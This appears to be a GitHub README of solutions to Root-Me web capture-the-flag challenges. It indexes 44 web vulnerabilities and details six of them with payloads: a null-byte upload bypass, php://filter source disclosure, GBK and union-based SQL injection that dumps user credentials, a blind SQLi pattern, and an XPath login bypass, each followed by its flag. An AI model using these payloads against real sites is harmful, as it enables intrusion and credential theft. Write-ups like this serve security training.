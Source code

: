 #Mục lục

>[1. HTML]

>[2. Weak password]

>[3. User-agent]

>[4. Backup file]

>[5. HTTP directory indexing]

>[6. HTTP Headers]

>[7. HTTP verb tampering]

>[8. Install files]

>[9. Improper redirect]

>[10. CRLF]

>[11. File upload - double extensions]

>[12. File upload - MIME type]

>[13. HTTP cookies]

>[14. Directory traversal]

>[15. File upload - null byte](#15)

>[16. PHP filters](#16)

>[17. PHP register globals]

>[18. Local File Inclusion]

>[19. Local File Inclusion - Double encoding ]

>[20. PHP type juggling]

>[21. Preg_Replace]

>[22. Remote File Inclusion]

>[23. Server-side Template Injection]

>[24. SQL injection - authentication]

>[25. SQL injection - authentication - GBK](#25)

>[26. SQL injection - string](#26)

>[27. LDAP injection - authentication]

>[28. NoSQL injection - authentication]

>[29. Path Truncation]

>[30. PHP Serialization]

>[31. SQL injection - numeric](#31)

>[32. SQL Truncation]

>[33. XML External Entity]

>[34. XPath injection - authentication](#34)

>[35. Local File Inclusion - Wrappers]

>[36. SQL injection - Error]

>[37. SQL injection - Insert]

>[38. SQL injection - file reading]

>[39. XPath injection - string]

>[40. SQL injection - Time based]

>[41. SQL injection - blind]

>[42. LDAP injection - blind]

>[43. XPath injection - blind]

>[44. SQL injection - filter bypass]

#Nội dung
<a name='15'></a>
##15. File upload - null byte 

[+] URL: `http://challenge01.root-me.org/web-serveur/ch22/?action=upload`

[+] Filter: `shell.php%00.jpg`

[+] Vulnerable: upload nullbyte

[+] File: [shell.php%00.jpg](Root-me/prog/shell.php%00.jpg)

[+] Flag: `YPNchi2NmTwygr2dgCCF`
<a name='16'></a>
##16. PHP filters 

[+] URL: <http://challenge01.root-me.org/web-serveur/ch12/>

[+] Filter: 
 ```
 /index.php?inc=php://filter/convert.base64-encode/resource=index.php
 /index.php?inc=php://filter/convert.base64-encode/resource=ch12.php
 /index.php?inc=php://filter/convert.base64-encode/resource=config.php
 ```
[+] Vulnerable: `include()`

[+] flag: `admin:DAPt9D2mky0APAF`
<a name="25"></a>
##25. SQL injection - authentication - GBK 

[+] URL: <http://challenge01.root-me.org/web-serveur/ch42/>

[+] Sql injection: `login=%bf' or 1=1 -- -&password=abc`

[+] Vulnerable: `addslashes()` or `magic_quotes_gpc()`. 

[+] Solution: gbk charset encode

[+] flag: `iMDaFlag1337!`
<a name="26"></a>
##26. SQL injection - string 

[+] URL: <http://challenge01.root-me.org/web-serveur/ch19/?action=recherche>

[+] Sql injection: `' union select (select group_concat(username, password) from users),2  -- -`

[+] Vulnerable: sql string (quote) query

[+] flag: `c4K04dtIaJsuWdi`
<a name='31'></a>
##31. SQL injection - numeric 

[+] URL: <http://challenge01.root-me.org/web-serveur/ch18/>

[+] Sql injection: `1 or (select substr(group_concat(username, password),i,1) from users)=(select char(j))  -- -`

 - [-] `i` is index of subtring, `j` in decimal-unicode

[+] Vulnerable: sql number query

[+] code: [sqli-numberic.py](Root-me/prog/sqli-numberic.py)

[+] flag: `aTlkJYLjcbLmue3`
<a name="34"></a>
##34. XPath injection - authentication 

[+] URL: <http://challenge01.root-me.org/web-serveur/ch23/>

[+] Sql injection: `username=John'+or+'1'='1&password=abc`

[+] Vulnerable: base sqli

[+] flag: `6FkC67ui8njEepIK5Gr2Kwe`